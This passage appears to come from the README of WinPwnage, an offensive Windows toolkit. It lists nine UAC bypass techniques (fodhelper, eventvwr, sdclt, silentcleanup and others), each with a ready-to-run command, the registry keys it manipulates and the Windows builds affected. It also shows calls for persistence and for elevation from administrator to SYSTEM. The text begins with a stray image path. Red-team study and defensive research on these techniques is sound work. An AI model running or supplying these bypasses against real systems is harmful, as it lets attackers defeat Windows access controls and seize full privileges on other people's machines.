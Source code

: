 > \# Removal persistMethod4\(\["c:\\windows\\system32\\cmd.exe", "/k", "whoami"\], add\=False\)

Elevate from administrator to SYSTEM using elevateMethod1

```text
from winpwnage.functions.elevate.elevateMethod1 import elevateMethod1 elevateMethod1(["c:\\windows\\system32\\cmd.exe", "/k", "whoami"])
```

### UAC bypass techniques

Functions \(Expand/Collapse\)

* UAC bypass using runas
  * Id: 1
  * Method: Windows API, this only works if UAC is set to never notify
  * Syntax: `main.py --use uac --id 1 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 7600
  * Fixed in: n/a
* UAC bypass using fodhelper.exe
  * Id: 2
  * Method: Registry key \(Class\) manipulation
  * Syntax: `main.py --use uac --id 2 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 10240
  * Fixed in: n/a
* UAC bypass using slui.exe
  * Id: 3
  * Method: Registry key \(Class\) manipulation
  * Syntax: `main.py --use uac --id 3 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 9600
  * Fixed in: n/a
* UAC bypass using silentcleanup scheduled task
  * Id: 4
  * Method: Registry key \(Environment\) manipulation, this bypasses UAC's Always Notify.
  * Syntax: `main.py --use uac --id 4 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 9600
  * Fixed in: n/a
* UAC bypass using sdclt.exe \(isolatedcommand\)
  * Id: 5
  * Method: Registry key \(Class\) manipulation
  * Syntax: `main.py --use uac --id 5 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 10240
  * Fixed in: 17025
* UAC bypass using sdclt.exe \(App Paths\)
  * Id: 6
  * Method: Registry key \(App Paths\) manipulation
  * Syntax: `main.py --use uac --id 6 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 10240
  * Fixed in: 16215
* UAC bypass using perfmon.exe
  * Id: 7
  * Method: Registry key \(Volatile Environment\) manipulation
  * Syntax: `main.py --use uac --id 7 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 7600
  * Fixed in: 16299
* UAC bypass using eventvwr.exe
  * Id: 8
  * Method: Registry key \(Class\) manipulation
  * Syntax: `main.py --use uac --id 8 --payload c:\\windows\\system32\\cmd.exe`
  * Works from: 7600
  * Fixed in: 15031
* UAC bypass using compmgmtlauncher.exe
  * Id: 9
  * Method: Registry key \(Class\) manipulation
  * Syntax: `main.py --use uac --id 9 --payload c:\\windows\\system32\\cmd.exe`